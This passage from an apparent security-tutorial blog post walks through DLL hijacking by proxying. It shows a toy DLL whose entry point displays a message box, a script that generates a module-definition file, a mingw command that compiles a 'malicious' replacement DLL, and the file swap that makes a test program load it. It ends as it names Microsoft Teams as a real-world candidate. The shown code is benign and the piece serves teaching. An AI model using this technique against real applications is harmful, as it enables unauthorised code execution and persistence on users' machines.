 ```cpp
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Woof-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

But, before we start, let's run our python enum script `dll-def.py` on `pet.dll`:
```bash
python3 dll-def.py pet.dll
cat pet.def
```

![create pet.def](/assets/images/13/2021-10-12_13-45.png){:class="img-responsive"}    

As you can see, [Module-Definition file](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160) `pet.def` has been created.    

In the next step create our malicious `evil.dll` with and link our `pet.def` file when compile:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c pet.def -s
```

![compile pet.dll](/assets/images/13/2021-10-12_13-50.png){:class="img-responsive"}    

Then, rename `pet.dll` as `pet-orginal.dll`, and put our malicious `evil.dll` by renaming it as `pet.dll`

![replace pet.dll](/assets/images/13/2021-10-12_13-55.png){:class="img-responsive"}    

And run our `cartoon.exe`:

![run cartoon.exe](/assets/images/13/2021-10-12_14-01.png){:class="img-responsive"}    

As you can see, our DLL hijacking is perfectly worked :)

### Real world example. Microsoft Teams

But what about real world example? While researching various applications on my Windows 10 x64, I found many candidates for DLL hijacking. One of them is Microsoft Teams v.1.3.00.24758:
